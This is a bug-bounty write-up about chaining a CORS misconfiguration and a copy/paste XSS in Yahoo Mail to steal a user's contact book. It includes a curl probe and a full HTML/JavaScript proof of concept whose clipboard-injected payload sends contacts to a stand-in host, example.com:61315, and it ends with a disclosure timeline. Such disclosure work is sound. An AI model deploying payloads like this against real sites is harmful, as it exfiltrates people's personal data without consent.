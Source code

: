 ```yaml
---
layout: post
title: "Chaining Bugs to Steal Yahoo Contacts!"
author: Corben Leo
---
```

### &#x1F468;&#x1F3FB;&#x200D;&#x1F4BB;&nbsp;Introduction & Background:
This is a write-up of how I chained two vulnerabilities (an XSS and a CORS misconfiguration) that allowed me to steal contacts from a victim's contact book. This data included: names, phone numbers, addresses, etc. 

#### <font color="#129AC8">&#x2717;</font> Cross-Origin-Resource Sharing
> Cross-Origin Resource Sharing (CORS) is a mechanism that uses additional HTTP headers to let a user agent gain permission to access selected resources from a server on a different origin (domain) than the site currently in use.

Browsers enforce the <a href="https://en.wikipedia.org/wiki/Same-origin_policy" rel="noopener noreferrer" target="_blank"><font id="highlighter">Same-Origin Policy</font></a>, meaning that data on a site is only accessible from the same domain and port, unless there is a CORS configuration. This allows data to be shared with other sites.

#### <font color="#129AC8">&#x2717;</font> Cross-Site Scripting:
XSS is a client-side code injection attack that allows an attacker to insert scripts (such as javascript) into a vulnerable application. If you don't know what it is, you should. 
<br><br>

### &#x1F4A3; The Bugs:
#### <i class="fa fa-diamond" style="color:#129AC8" aria-hidden="true"></i> Bug #1: A CORS Misconfiguration in http://proddata.xobni.yahoo.com
I was browsing through various requests made to *.yahoo.com subdomains logged in the "<font id="highlighter2">Target</font>" tab of Burp Suite. I came across the subdomain proddata.xobni.yahoo.com and was intrigued by the name. There were only a few requests logged, but all to the same endpoint: `https://proddata.xobni.yahoo.com/v4/contacts`. This endpoint contains **every** contact you have in your Contact Book via a single `GET` request. I noticed the origin `https://mail.yahoo.com` was being reflected back in the `Access-Control-Allow-Origin` with `Access-Control-Allow-Credentials: true` header. I tried modifying the origin to many different payloads that I thought may work and be reflected, however none were reflected back. I then tried to send a different Yahoo! subdomain as the origin, rather than the `mail.yahoo.com` one. 
```
curl 'https://proddata.xobni.yahoo.com/v4/contacts' -s -H 'Origin: https://hackerone-cdl.yahoo.com' --head
```
Response:
```
Access-Control-Allow-Origin: https://hackerone-cdl.yahoo.com
Access-Control-Allow-Methods: GET,POST,PUT,DELETE,OPTIONS
Access-Control-Allow-Credentials: true

```
It accepted any *.yahoo.com subdomain in the origin and reflected it back in the ACAO with `Allow-Credentials: true`. This meant if I could find an XSS on *.yahoo.com, I could leverage it to steal contacts.  
<br>
#### <i class="fa fa-diamond" style="color:#129AC8" aria-hidden="true"></i> Bug #2: An XSS in Yahoo! Mail
A few days passed and I still hadn't found an XSS. Then I saw a tweet from Enguerran Gillier (<a href="https://twitter.com/opnsec" _target="blank" rel="noopener noreferrer">@opnsec</a>) regarding a wontfix Copy+Paste XSS he had found in Yahoo Mail. I quickly wget'd that POC from his server and edited it to fit my needs. (Turns out after reporting the chained bugs, the XSS <font id="highlighter">wasn't</font> marked as a wontfix and there was some miscommunication, so lucky me!). It required more user-interaction than I had wanted, but I didn't care, I just wanted to chain them and report them as soon as possible. 

### &#x1F4B0; The Grand Finale
This was my proof-of-concept, that required a logged in user to copy any text from this page and paste it into Yahoo Mail. 
```html
<!doctype html>
  <head>
    <title>Yahoo CORS Misconfiguration</title>
  </head>
  <body>
    <h1>Yahoo CORS Misconfiguration</h1>
    <p>Stealing Contact information via CORS Misconfiguration + Yahoo Mail XSS via Copy/Paste</p>
    <h3>Prerequisites :</h3>
    - Tested on Windows 10 with Firefox 56, Chrome 62, Edge<br/>
    <h3>Instructions :</h3>
    1. Select any text in this page and copy it using ctrl-C or right click -> copy <br/>
    <span>Copy status : </span><span id="copied">not copied yet</span> <br/>
    2. Go to Yahoo Mail, compose a new email and paste inside the email body<br/>
    3. All of your contact's information will be sent to my server on port 61315  
  <script>
  document.addEventListener('copy', function(e){
  	e.clipboardData.setData('text/plain', '');
  	e.clipboardData.setData('text/html','<div id="enhancr2_a" class="yahoo-link-enhancr-card">xxx</div><img src="x" onerror="document.write(\'&lt;script&gt;var xhttp=new XMLHttpRequest();xhttp.onreadystatechange = function() {if (this.readyState == 4 && this.status == 200) {document.location=&#x22;http://example.com:61315&#x22;+escape(this.responseText);}};xhttp.open(&#x22;GET&#x22;,&#x22;https://proddata.xobni.yahoo.com/v4/contacts&#x22;,true);xhttp.withCredentials = true;xhttp.send();&lt;/script&gt;\');">');
  	e.preventDefault();
  	document.getElementById("copied").textContent = "SUCCESSFULLY COPIED"
  });
  </script>
```
<br>
Proof-of-Concept Video:<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/lK23tBEVKxU" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
<br>
<h2><u>Timeline</u></h2>
- (11/8/2017) Reported to Yahoo! via HackerOne
- (11/9/2017) Confirmed & awarded $150 on Triage
- (11/15/2017) Vulnerability Patched
- (12/10/2017) Awarded a $1,850 bounty (making the entire bounty $2,000)
<br><br>This was a fun report for me and I hoped you enjoyed it as well!<br>Thanks for reading,<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/C0RB3N"  target="_blank" rel="noopener noreferrer">https://github.com/sxcurity</a>
